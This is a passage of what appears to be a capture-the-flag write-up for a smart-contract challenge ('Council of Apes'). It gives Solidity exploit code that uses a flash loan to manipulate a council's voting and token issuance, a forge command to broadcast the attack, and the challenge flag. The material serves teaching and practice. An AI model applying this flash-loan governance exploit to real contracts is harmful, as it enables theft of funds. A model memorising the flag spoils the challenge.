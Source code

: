 ```javascript
        require(msg.value == 10 ether);
    }


    function exploit() public {
        
        //Become an ape
        bytes32 holyWords = keccak256("I hereby swear to ape into every shitcoin I see, to never sell, to never surrender, to never give up, to never stop buying, to never stop hodling, to never stop aping, to never stop believing, to never stop dreaming, to never stop hoping, to never stop loving, to never stop living, to never stop breathing");
        TARGET.council().becomeAnApe(holyWords);

    
        // create a pool on IcyExchange
        myToken.approve(address(TARGET), 100_000);
        TARGET.createPool{value: 1 ether}(address(myToken));

        // Take flash loan
        myToken.approve(address(TARGET), type(uint256).max); // we dont know how many tokens it needs, give as much as possible
        TARGET.collateralizedFlashloan(address(myToken), 1_000_000_000, address(this));

    }

    function receiveFlashLoan(uint256 amount) public{
        TARGET.icyToken().approve(address(TARGET.council()), amount);
        TARGET.council().buyBanana(amount);

        TARGET.council().vote(address(this), amount);
        TARGET.council().claimNewRank();
        
        TARGET.council().issueBanana(amount, address(this));
        TARGET.council().sellBanana(amount);

        TARGET.icyToken().approve(address(TARGET), amount);

        TARGET.council().dissolveCouncilOfTheApes(theEvilWords);
    }

    fallback() external payable { }
}

//gctf{M0nkee5_4re_inD33d_t0g3ther_str0ng3r}
```

To solve run this command

```bash
forge script script/CouncilOfApesAttack/CouncilOfApesAttack.s.sol:AttackScript --rpc-url <RPC-URL> --private-key <REDACTED> --broadcast
```

Note that understanding entire protocol is necessary to solve this challenge. 


***

Thank you for visiting!!!